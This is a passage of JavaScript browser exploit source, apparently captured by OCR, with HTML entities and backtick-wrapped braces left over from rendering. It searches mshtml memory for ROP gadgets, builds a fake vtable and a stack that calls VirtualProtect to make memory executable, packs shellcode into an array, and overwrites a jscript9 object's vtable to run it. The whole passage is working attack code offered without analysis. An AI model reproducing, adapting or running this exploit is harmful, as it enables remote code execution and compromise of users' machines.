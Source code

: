 ```
   `}`
 `}`
 if(poprcx &lt; 0) `{`
   alert("Exploit failed, couldn't find ROP gadgets");
   return;
 `}`
 var poprdx = -1;
 for(var i=0x800;i&lt;0x900000;i++) `{`
   if(strarr[strindex].charCodeAt(i) == 0xC35A) `{`
     poprdx = mshtmllo + i*2;
     break;
   `}`
 `}`
 if(poprdx &lt; 0) `{`
   alert("Exploit failed, couldn't find ROP gadgets");
   return;
 `}`
 var popr8 = -1;
 for(var i=0x800;i&lt;0x900000;i++) `{`
   if((strarr[strindex].charCodeAt(i) == 0x5841) &amp;&amp; (strarr[strindex].charCodeAt(i+1) % 256 == 0xC3)) `{`
     popr8 = mshtmllo + i*2;
     break;
   `}`
   if((Math.floor(strarr[strindex].charCodeAt(i)/256) == 0x41) &amp;&amp; (strarr[strindex].charCodeAt(i+1) == 0xC358)) `{`
     popr8 = mshtmllo + i*2 + 1;
     break;
   `}`
 `}`
 if(popr8 &lt; 0) `{`
   alert("Exploit failed, couldn't find ROP gadgets");
   return;
 `}`
 //prepare the fake vtable
 var eaxoffset = 6 + 0x20;
 arrarr[arrindex][eaxoffset + 0x98/4] = u2s(pivotlo);
 arrarr[arrindex][eaxoffset + 0x98/4 + 1] = mshtmlhi;
 //prepare the fake stack
 arrarr[arrindex][eaxoffset] = u2s(poprcx);
 arrarr[arrindex][eaxoffset + 1] = mshtmlhi;
 arrarr[arrindex][eaxoffset + 2] = addrlo;
 arrarr[arrindex][eaxoffset + 3] = addrhi;
 arrarr[arrindex][eaxoffset + 4] = u2s(poprdx);
 arrarr[arrindex][eaxoffset + 5] = mshtmlhi;
 arrarr[arrindex][eaxoffset + 6] = 0x1000;
 arrarr[arrindex][eaxoffset + 7] = 0;
 arrarr[arrindex][eaxoffset + 8] = u2s(popr8);
 arrarr[arrindex][eaxoffset + 9] = mshtmlhi;
 arrarr[arrindex][eaxoffset + 10] = 0x40;
 arrarr[arrindex][eaxoffset + 11] = 0;
 arrarr[arrindex][eaxoffset + 12] = u2s(vplo);
 arrarr[arrindex][eaxoffset + 13] = u2s(vphi);
 arrarr[arrindex][eaxoffset + 14] = addrlo + 24 + eaxoffset*4 + 50*4;
 arrarr[arrindex][eaxoffset + 15] = addrhi;
 //encode the shellcode
 for(var i=0;i&lt;Math.floor(shellcode.length/4);i++) `{`
    arrarr[arrindex][eaxoffset + 50 + i] = u2s(shellcode[i*4+3]*0x1000000 + shellcode[i*4+2]*0x10000 + shellcode[i*4+1]*0x100 + shellcode[i*4]);
 `}`
 //overwrite a vtable of jscript9 object and trigger a virtual call
 arrarr[arrindex][7] = addrhi;
 arrarr[arrindex][6] = addrlo + 24 + eaxoffset*4;
```